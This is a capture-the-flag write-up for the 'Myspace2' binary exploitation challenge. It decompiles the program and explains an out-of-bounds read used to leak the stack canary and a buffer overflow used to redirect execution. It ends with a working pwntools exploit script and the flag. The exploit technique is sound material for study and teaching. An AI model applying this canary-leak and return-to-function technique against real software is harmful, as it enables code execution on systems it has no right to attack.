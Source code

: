 ```yaml
---
description: a ret2win with canary bypass pwn challenge
---
```


# Myspace2

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

given an ELF file.

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

we see here the ELF file has a stack canary. Then we run the program

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

then we decompile the program using ghidra

main:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("I really miss MySpace. At least the part about ranking my friends. Let\'s recreate it!");
  local_78 = 0x6e316e337365;
  local_70 = 0x6f72655a;
  local_68 = 0x6e6f72746e6f43;
  local_60 = 0x317978696d;
  local_58 = 0x4c68736f4a;
  local_50 = 0x70707070616947;
  local_48 = 0x746e6f6673656349;
  local_40 = 0x78636974637261;
LAB_00401636:
  menu();
  fgets(local_38,0x28,stdin);
  iVar1 = FUN_00401160(local_38);
  if (iVar1 == 4) {
    if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  if (iVar1 < 5) {
    if (iVar1 == 3) {
      display_friend(&local_78);
      goto LAB_00401636;
    }
    if (iVar1 < 4) {
      if (iVar1 == 1) {
        all_friends(&local_78);
      }
      else {
        if (iVar1 != 2) goto LAB_004016cd;
        edit_friend(&local_78);
      }
      goto LAB_00401636;
    }
  }
LAB_004016cd:
  puts("Invalid option.");
  goto LAB_00401636;
}
```

this ELF has two vulnerabilities. one at edit\_friend and another at display\_friend.

```c
void edit_friend(long param_1)

{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to edit (0-7): ");
  fgets(local_48,0x20,stdin);
  iVar1 = FUN_00401160(local_48);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  else {
    puts("Enter new name: ");
    fgets((char *)((long)iVar1 * 8 + param_1),0x100,stdin);
    sVar2 = strcspn((char *)(param_1 + (long)iVar1 * 8),"\n");
    *(undefined *)((long)iVar1 * 8 + param_1 + sVar2) = 0;
    puts("Friend updated.");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```c
void display_friend(long param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to display (0-7): ");
  fgets(local_28,0x10,stdin);
  iVar1 = FUN_00401160(local_28);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  write(1,(void *)(param_1 + (long)iVar1 * 8),8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

now for the exploit part. first we leak canary by exploiting arbitrary read vuln at display\_friend then we ret2win by exploiting buffer overflow vuln at edit\_friend.

we then use gdb to see the memory offsets

```armasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401584 <+0>:	endbr64
   0x0000000000401588 <+4>:	push   rbp
   0x0000000000401589 <+5>:	mov    rbp,rsp
   0x000000000040158c <+8>:	add    rsp,0xffffffffffffff80
   0x0000000000401590 <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401599 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040159d <+25>:	xor    eax,eax
   0x000000000040159f <+27>:	mov    rax,QWORD PTR [rip+0x2aba]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x00000000004015a6 <+34>:	mov    ecx,0x0
   0x00000000004015ab <+39>:	mov    edx,0x2
   0x00000000004015b0 <+44>:	mov    esi,0x0
   0x00000000004015b5 <+49>:	mov    rdi,rax
   0x00000000004015b8 <+52>:	call   0x401150 <setvbuf@plt>
   0x00000000004015bd <+57>:	lea    rax,[rip+0xb24]        # 0x4020e8
   0x00000000004015c4 <+64>:	mov    rdi,rax
   0x00000000004015c7 <+67>:	call   0x4010d0 <puts@plt>
   0x00000000004015cc <+72>:	movabs rax,0x6e316e337365
   0x00000000004015d6 <+82>:	mov    QWORD PTR [rbp-0x70],rax
```

this might seem confusing, but when we combine with ghidra decompile info, we know that main <+82> is where 'friends' array started and it is stored in **rbp-0x70**. We can also see where the canary is located, which is main <+21> and is stored in **rbp-0x8**.

Now we can calculate the offsets:

*   friends to canary:

    Offset = (Canary addr) - (Friends beginning addr)

    Offset = (rbp-0x8) - (rbp-0x70)

    Offset = -0x8 + 0x70 = **0x68 bytes (104 in decimal)**&#x20;
*   Canary leak:

    *   Display\_friend() function reads address from **friends\_addr + index \* 8**.

        Canary\_addr = friends\_addr + index \* 8

        (friends\_addr) + 0x68 = (friends\_addr) + index \* 8

        0x68 = index \* 8

        index = 0x68/8 = 104/8 = **13**



now after we got all the offsets we construct our exploit:

```python
from pwn import *

#p = process('./myspace2')
p = remote('myspace2.chal.idek.team', 1337)

def leak(index):
    p.sendlineafter(b'>>', b'3')
    p.sendlineafter(b'Enter index to display (0-7):', str(index).encode())
    p.recvuntil(b'Invalid index!\n')
    leaked = p.recv(8)
    return u64(leaked)

# Leak canary
canary = leak(13)
print(f"Canary: {hex(canary)}")

p.sendlineafter(b'>>', b'2')
p.sendlineafter(b'Enter index to edit (0-7):', b'0')

payload = b"A" * 104
payload += p64(canary)
payload += b"B" * 8
payload += p64(0x40129d)  # get_flag

p.sendlineafter(b'Enter new name:', payload)
p.sendlineafter(b'>>', b'4')
p.interactive()
```

#### Flag: idek{b4bys\_1st\_c00k1e\_leak\_yayyy!}
